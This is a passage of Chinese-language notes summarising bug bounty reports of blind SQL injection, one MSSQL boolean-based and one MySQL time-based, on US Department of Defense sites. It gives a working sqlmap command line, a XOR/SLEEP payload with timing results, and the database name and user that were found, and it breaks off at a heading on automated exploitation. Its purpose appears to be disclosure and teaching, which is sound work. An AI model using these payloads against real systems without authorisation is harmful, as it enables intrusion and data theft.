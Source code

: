      - 若 `system_user` 前16字符为 `public\dsfwsuser`，条件成立，返回正常数据。
     - 否则，查询无结果或返回异常（通过响应内容长度或状态码差异判断）。

   - **观察结果**：

     - 当用户名为 `public\dsfwsuser` 时，页面返回预期数据。
     - 输入错误值（如 `'unknownuser'`）时，响应内容为空或异常。

3. **自动化工具利用**

   - 使用 `sqlmap` 自动化注入（需携带有效会话 Cookie）：

     ```
     sqlmap -r 11.txt --random-agent --batch --technique=B --dbms=mssql --force-ssl
     ```

   - **关键参数**：

     - `--technique=B`：指定布尔盲注技术。
     - `--dbms=mssql`：声明目标数据库类型。

   - **已确认信息**：

     - 数据库名称：`dsfdb`
     - 数据库用户：`public\dsfwsuser`

### 5. MySQL 时间盲注漏洞

[U.S. Dept Of Defense | Report #2020429 - Blind Sql Injection https:/████████ | HackerOne](https://hackerone.com/reports/2020429)

1. **时间盲注验证**

   - **Payload 构造**：

     ```
     0' XOR (IF(now()=sysdate(), SLEEP(15), 0) XOR 'Z
     ```

   - **攻击逻辑**：

     - `now()` 与 `sysdate()` 在 MySQL 中功能相同，条件恒为真。
     - 触发 `SLEEP(15)` 强制数据库休眠 15 秒。
     - 通过响应时间判断注入是否成功。

   - **测试结果**：

     | Payload                          | 响应延迟     |
     | :------------------------------- | :----------- |
     | `0'XOR(IF(1=1,SLEEP(15),0)XOR'Z` | **15.896秒** |
     | `0'XOR(IF(1=1,SLEEP(10),0)XOR'Z` | **10.740秒** |
     | `0'XOR(IF(1=1,SLEEP(2),0)XOR'Z`  | **2.714秒**  |
     | `0'XOR(IF(1=1,SLEEP(1),0)XOR'Z`  | **1.927秒**  |

   - **结论**：响应时间与 `SLEEP` 参数高度吻合，确认漏洞存在。

2. **自动化工具利用**
